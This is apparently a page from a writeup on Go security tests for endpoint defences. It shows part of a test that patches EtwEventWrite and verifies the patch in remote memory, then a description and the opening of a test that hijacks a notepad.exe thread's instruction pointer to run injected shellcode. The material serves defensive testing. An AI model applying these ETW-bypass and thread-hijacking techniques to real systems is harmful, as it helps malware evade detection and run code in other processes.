 ```go
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to patch EtwEventWrite: %s", err))
		Endpoint.Stop(1) // ERROR
	}
}

func verifyMemoryPatch(procHandle windows.Handle, remoteAddr uintptr, expectedData []byte) {
	buffer := make([]byte, len(expectedData))
	var read uint32
	err := windows.ReadProcessMemory(procHandle, remoteAddr, &buffer[0], uint32(len(buffer)), &read)
	if err != nil || read != uint32(len(buffer)) || !compareBuffers(buffer, expectedData) {
		Endpoint.Say("[-] Memory patch verification failed")
		Endpoint.Stop(1) // ERROR
	}
	Endpoint.Say("[+] Memory patch verification succeeded")
}

func compareBuffers(buf1, buf2 []byte) bool {
	if len(buf1) != len(buf2) {
		return false
	}
	for i := range buf1 {
		if buf1[i] != buf2[i] {
			return false
		}
	}
	return true
}

func cleanup() {
	Endpoint.Say("[+] Cleanup completed successfully")
	Endpoint.Stop(100) // PROTECTED
}
```

## remote thread context manipulation

attackers can modify the execution context of a thread in a remote process, allowing them to execute arbitrary code within the process. this happens a lot with process injection attacks. 

the test first retrieves the context of the main thread of the target process and modifies its instruction pointer (`RIP`) to point to the address of injected shellcode. attackers can hijack threads to execute payloads this way.

by changing the thread's context, the test forces the process to execute the injected code, simulating the achievement of remote code execution.

```go
func main() {
	Endpoint.Say("[+] Starting Remote Thread Context Manipulation [+]")
	Endpoint.Start(test, cleanup)
}

func test() {
	// Start a target process to work with
	cmd := exec.Command("notepad.exe")
	err := cmd.Start()
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to start process: %s", err))
		Endpoint.Stop(1) // ERROR
	}
	defer cmd.Process.Kill()

```